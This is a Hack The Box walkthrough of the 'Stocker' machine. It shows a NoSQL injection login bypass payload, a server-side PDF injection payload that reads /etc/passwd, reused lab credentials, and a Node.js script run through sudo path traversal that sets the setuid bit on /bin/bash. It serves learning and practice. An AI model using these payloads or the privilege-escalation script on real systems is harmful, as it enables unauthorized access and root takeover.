

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

**IP-ADDR:** `10.10.11.196 stocker.htb`

****nmap scan: TCP/IP****

```bash
Nmap scan report for 10.10.11.196
Host is up (0.48s latency).

PORT     STATE  SERVICE        VERSION
22/tcp   open   ssh            OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3d12971d86bc161683608f4f06e6d54e (RSA)
|   256 7c4d1a7868ce1200df491037f9ad174f (ECDSA)
|_  256 dd978050a5bacd7d55e827ed28fdaa3b (ED25519)
80/tcp   open   http           nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://stocker.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

* Web server is redirecting to hostname `stocker.htb`

<div style="max-height: 500px; overflow: hidden; position: relative; margin-bottom: 20px;">
  <a href="screenshots/http-stocker.htb.png">
    
  </a>
  <div style="position: absolute; right: 20px; top: 475px"><a href="screenshots/http-stocker.htb.png"><i>Click for full image</i></a></div>
</div>

<!--  -->

* an employee name from the homepage -> `Angoose Garden`

`ffuf` found a vHost - `dev.stocker.htb`
```bash
[Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 414ms]
    * FUZZ: dev
```


A login page, and nothing else from both apps.

# Foothold

## NoSQLi With JSON

After some try, found nosql injection in the login page and able to bypass the authentication. Payload -> `{"username": {"$ne": null}, "password": {"$ne": null}}`


And redirected to `/stock`


There a few items listed on the page, and we can add them in our cart.


On clicking submit button, we get a link,


which open a pdf file with order invoice.


PDF file is generating server side.

## PDF XSS

When putting html code it render in the pdf file. So, we can use XSS to read arbitrary file -> https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf#read-local-file


Payload -> `<object width=1000 height=1000 data=\"file:///etc/passwd\">`




* Username -> `angoose`

And from a json parser error got the web app filesystem location


and from `/var/www/dev/index.js`, got a database password with reused in user "angoose" ssh login.

**Creds:** `angoose:IHeardPassphrasesArePrettySecure`


# Privesc

## Nodejs with sudo

And user "angoose" can run `/usr/bin/node` on `/usr/local/scripts/*.js` with sudo.
```bash
angoose@stocker:~$ sudo -l
[sudo] password for angoose: 
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

BUt `/usr/local/scripts/` directory is not writable, as so we can do directory traversal on asterisk sign (`*`)

Here is a simple node js script to do some read, write tasks.
```js
cat > /tmp/tasker.js << EOF

const fs = require("fs");
const { exec } = require("child_process");
const encoding = "utf8";

// Function to read file contents
function readFileContents(inputFilePath) {
  fs.readFile(inputFilePath, encoding, (err, inputData) => {
    if (err) {
      console.error(err);
    } else {
      console.log(inputFilePath + " file contents:");
      console.log(inputData);
    }
  });
}

// Function to write modified file contents
function writeFileContents(inputFilePath, outputFilePath) {
  const outputFilePathBak = outputFilePath + ".bak";
  if (fs.existsSync(outputFilePath)) {
    // Move the existing output file to a backup file
    fs.renameSync(outputFilePath, outputFilePathBak);
    console.log("Moved existing file to " + outputFilePathBak);
  }

  fs.readFile(inputFilePath, encoding, (err, inputData) => {
    if (err) {
      console.error(err);
    } else {
      // Write the modified data to the output file
      fs.writeFile(outputFilePath, inputData, (err) => {
        if (err) {
          console.error(err);
        } else {
          console.log("File written to " + outputFilePath);
        }
      });
    }
  });
}

// Function to execute system commands
function executeCommand(command) {
  console.log("Command stdin: " + command);
  exec(command, (error, stdout, stderr) => {
    if (error) {
      console.error("Command execution error: " + error);
      return;
    }
    if (stderr) {
      console.error("Command stderr: " + stderr);
      return;
    }
    console.log("Command stdout: " + stdout);
  });
}

// Uncomment one of the following lines to execute the corresponding function
// readFileContents("/root/root.txt");
// writeFileContents("/tmp/inputfile.txt", "/tmp/outputfile.txt");
executeCommand("chmod +s /bin/bash");

EOF
```

And run with sudo.
```bash
sudo /usr/bin/node /usr/local/scripts/../../../tmp/tasker.js
```

